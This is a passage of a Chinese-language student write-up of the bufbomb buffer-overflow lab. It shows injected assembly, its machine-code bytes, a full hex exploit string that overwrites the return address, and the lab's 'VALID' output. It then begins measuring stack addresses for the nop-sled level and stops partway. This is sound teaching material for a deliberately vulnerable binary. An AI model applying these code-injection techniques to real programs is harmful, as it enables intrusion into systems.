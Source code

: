 编写注入代码 eax设为cookie ebp设为0x556835f0  push返回地址 ret返回

```
movl $0x7f9d2743,%eax
movl $0x556835f0,%ebp
push $0x08048dbe
ret
```

`gcc+objdump`以后

```
   0: b8 43 27 9d 7f        mov    $0x7f9d2743,%eax
   5: bd f0 35 68 55        mov    $0x556835f0,%ebp
   a: 68 be 8d 04 08        push  $0x8048dbe
   f: c3                    ret
```

`b8 43 27 9d 7f bd f0 35 68 55 68 be 8d 04 08 c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 98 35 68 55`

测试

```
cat exploit.ans3 | ./hex2raw | ./bufbomb -u cromarmot
Userid: cromarmot
Cookie: 0x7f9d2743
Type string:Boom!: getbuf returned 0x7f9d2743
VALID
NICE JOB!
```

于是我们学会了偷偷默默注入了还“不被发现"

### kaboom (level 4)

啊 有没有感觉比bomblab 轻松多了 毕竟把汇编反看成c真是费力啊

注意这个需要加上`-n`参数运行

加了`-n`参数以后整个stack位置就不再像之前几个那样一直一样,这次不再是调用`getbuf`，而是调用`getbufn`,这个函数分配了512个空间

作者说执行的5次里你会发现%ebp 的变化±240，作为马克思主义熏陶下的青年我决定实事求是的测一测

在`getbufn`设断点 运行并`display $ebp`分别得到

`0x556835c0,0x55683550,0x556835d0,0x55683570,0x55683620`

根据汇编`-0x208(%ebp)`是输入开始的位置

所以共有的区域只有(高位省略) `0x620-0x208 ~ 0x550` 即 `0x418~0x550`

看testn里调用getbufn前的代码
```
 8048e29:	53                   	push   %ebx    #会影响esp哦
 8048e2a:	83 ec 24             	sub    $0x24,%esp
```

可以知道 old ebp = esp+0x24+0x4

所以结构是
